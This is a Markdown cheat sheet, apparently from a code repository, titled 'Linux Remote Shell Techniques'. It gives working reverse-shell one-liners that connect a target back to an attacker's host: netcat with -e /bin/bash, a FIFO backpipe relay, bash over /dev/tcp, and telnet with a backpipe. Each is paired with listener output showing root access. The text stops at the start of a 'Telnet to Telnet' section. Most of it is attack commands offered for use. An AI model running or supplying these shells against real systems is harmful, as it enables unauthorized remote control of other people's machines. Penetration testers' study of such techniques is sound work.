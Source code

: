 ```yaml
---
title: Linux Remote Shell Techniques
---
```


# Linux Remote Shell Techniques

Abbreviations:

* AIP = Attacker's IP address
* APORT = Port of listening service on the attacker's machine
* TIP = Target's IP address
* TPORT = Target's port (most like a random number generated automatically)

## Standard Unsecure Netcat

This technique relies on a security feature being disabled when netcat was
compiled (that is the -e option).

Target:

```
[root@target ~]# nc <AIP> <APORT> -e /bin/bash
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Using Netcat with Security Hole Closed

is based on the common technique used to build netcat relays. When the
GAPING_SECURITY_HOLE is disabled, which means you don’t have access to the ‘-e’
option of netcat, most people pass on using netcat and move to something else.
Well this just isn’t necessary. Create a FIFO file system object and use it as
a backpipe to relay standard output from commands piped from netcat to
`/bin/bash` back into netcat.

Target:

```
[root@target ~]# mknod backpipe p && nc <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
id
uid=0(root) gid=0(root) groups=0(root)
```

## Netcat Without Netcat

I love “hacks” that use features of the operating system against itself. This
is one of those “hacks”. It takes the /dev/tcp socket programming feature and
uses it to redirect /bin/bash to a remote system. It’s not always available,
but can be quite handy when it is.

Target:

```
[root@target ~]# /bin/bash -i > /dev/tcp/<AIP>/<APORT> 0<&1 2>&1
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
[root@target ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@target ~]#
```

## Netcat Without Netcat or /dev/tcp

For when `/dev/tcp` is not available either, combine it with the backpipes

Target:

```
[root@target ~]# mknod backpipe p && telnet <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Telnet to Telnet

By god this is an ugly one... but it works... and if it's all you got then it's
all you got.

Target:

